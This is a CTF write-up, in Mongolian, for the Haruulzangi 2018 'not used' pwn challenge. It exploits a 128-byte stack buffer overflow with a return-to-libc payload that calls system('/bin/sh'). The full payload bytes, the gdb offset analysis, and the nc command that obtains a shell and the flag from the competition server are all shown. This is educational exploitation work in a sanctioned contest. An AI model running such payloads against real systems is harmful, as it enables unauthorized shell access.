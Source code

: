 # Haruulzangi 2018 Round 1 : not used 

**Category:** Pwn
**Points:** 964
**Solves:** 5
**Description:**

>nc 218.100.84.106 9006 дээр хавсралт дээрх elf ажиллаж байна.
>
>link [notused](notused)
>
>link [notused.c](notused.c)
>
>--
>reamb


## Write-up

Өгөгдсөн `notused` binary файлыг ажилуулвал доорхи үр дүн гарж байв. 
```
[root@reamb home]# ./notused
[+] Feed me more!!!
hello
[+] zuv baildaa
[root@reamb home]#
```
 `notused.c` дээр тухайн програмын бүрэн код хуулагдсан байна. Source код дээрээс харвал дээрх мөрүүд нь хамгийн сонирхолтой хэсгүүд юм.
```
char * n0t_us3d = "/bin/bash";

int    call_me() {
        return system("/bin/date");
}


``` 
Энд хэзээ ч дуудагдахгүй `n0t_us3d` хувьсагчын утгыг `system()` дотор дуудаж чадвал бид shell ажиллуулж чадах юм. 

Юны түрүүнд binary файл дээр бүффер -ийн хэмжээг тооцолж үзье. үүнийг уламжиллалт аргаар ольё. 
```
[root@reamb home]# python -c 'print "A"*128' | ./notused
[+] Feed me more!!!
[+] zuv baildaa
Segmentation fault
```
128 байт аас эхлээд buffer дүүрч алдаа өгч байна. энийг souce code дээрээс  `char buf[128];` -ээр олж болно. Бид stack-г дүүргэн буцах Return address(EIP)  дээр call_me хаяг байршуулж ажилуулах гэж үзье. 

>StackFrame нь  Stack(128 bytes) + EBP(4 bytes) + return adrress(EIP)(4 bytes)  байдаг билээ. 

Үүнийг `gdb` дээр мөн шалгалт хийж тогтооё.

```
[root@reamb home]# python -c 'print "A"*128 + "BBBB"+"CCCC"+"DDDD"' > rea.txt
[root@reamb home]#
```
```

[root@reamb home]# gdb ./notused
GNU gdb (GDB) Red Hat Enterprise Linux 7.6.1-110.el7
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-redhat-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /home/notused...done.
gdb-peda$ run < rea.txt
Starting program: /home/./notused < rea.txt
[+] Feed me more!!!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x8d
EBX: 0xf7fca000 --> 0x1c6da8
ECX: 0xffffd584 ('A' <repeats 128 times>, "BBBBCCCCDDDD\n\206\004\b\024")
EDX: 0x100
ESI: 0x0
EDI: 0x0
EBP: 0x42424242 ('BBBB')
ESP: 0xffffd60c ("DDDD\n\206\004\b\024")
EIP: 0x43434343 ('CCCC')
EFLAGS: 0x10203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x43434343
[------------------------------------stack-------------------------------------]
0000| 0xffffd60c ("DDDD\n\206\004\b\024")
0004| 0xffffd610 --> 0x804860a (<_fini+6>:      (bad))
0008| 0xffffd614 --> 0x14
0012| 0xffffd618 --> 0x0
0016| 0xffffd61c --> 0xf7e1d1b3 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0020| 0xffffd620 --> 0x1
0024| 0xffffd624 --> 0xffffd6b4 --> 0xffffd7fb ("/home/./notused")
0028| 0xffffd628 --> 0xffffd6bc --> 0xffffd80b ("XDG_SESSION_ID=504")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x43434343 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-222.el7.i686
```

Эндээс программ нь `0x43434343` буюу `CCCC` хаяг дээр кодыг ажилуулах гээд алдаа зааж байгаа нь харагдаж байна.  тэгвэл бид `CCCC` -н хаягыг call_me() ээр сольж бичиж үзье. call_me() ийн хаягыг эхэлж ольё.

```
[root@reamb home]# objdump -D ./notused |grep call_me
080484dd <call_me>:
```

фүнкцийн санах ой дээрх хаяг олдлоо. үүнийг stack руу бичих тул `[little endian](https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html)` буюу урвуугаар бичнэ.
``` 
[root@rea home]# python -c 'print "A"*128 + "BBBB"+"\xdd\x84\x04\x08"' | ./notused
[+] Feed me more!!!
Mon Oct  8 17:13:01 +08 2018
```

бидний хүссэн call_me -г дуудаж чадлаа. Одоо харин `system(/bin/bash)` хэрхэн дуудах вэ? 

Үүнд бид `[Return-to-Libc](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf)` аргыг ашиглах юм.  Үндсэн санаа нь memory дээр байрших фүнкц утгуудыг дахин дуудаж өөрт ашигтай хувьлбарт оруулан ашиглана. 

|Top of stack        |    EBP    | EIP                         | Dummy return addr |    address of /bin/sh string |
|--------------------|-----------|-----------------------------|-------------------|------------------------------|
|AAAAAAAAAAAAAA      |   BBBB    |   addr of system function   |     DUMM          |   address of /bin/sh string  |


Эндээс бидэнд   `system`  фүнкцийн хаяг болон `/bin/sh` string ийн хаягууд хэрэг болож байна.

```
[root@reamb home]# objdump -D notused |grep system
08048390 <system@plt>:
 80484ea:       e8 a1 fe ff ff          call   8048390 <system@plt>
```
эндээс `system` фүнкцийн хаягийг олж авлаа. `/bin/sh` ийг харин энгийн debugger дээрээс харж болно. 


![notused.png](notused.png)



эндээс нийлүүлээд бичвэл. 
```
[root@reamb home]# python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"' | ./notused
[+] Feed me more!!!
Segmentation fault
```

ажиллахгүй байгаа мэт байна тэхдээ цаанаа `system(/bin/sh)` ажиллаж байгаа gdb дээрээс харж болно. Энд `system(/bin/sh)` ажиллангуута тэр доороо хаагдаж байгаа юм. энийг аргалах амархан арга нь bash дээр `command; cat` хэмээн аргалах боломжтой юм. 



```
[root@reamb home]# (python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"'; cat )| ./notused
[+] Feed me more!!!
date
Mon Oct  8 18:15:22 +08 2018
whoami
root

```
Hurray! ажиллаж байна. 

одоо бид flag авахын тулд сервер рүү хүсэлтийг явуулна. 

```
[root@reamb home]# (python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"'; cat )| nc 218.100.84.106 9006
[+] Feed me more!!!
ls
chall
flag
pow.py
pwn
cat flag
HZ{r3t2l1b_w1ns!!}
```

flag `HZ{r3t2l1b_w1ns!!}`



## Other write-ups and resources

* none yet
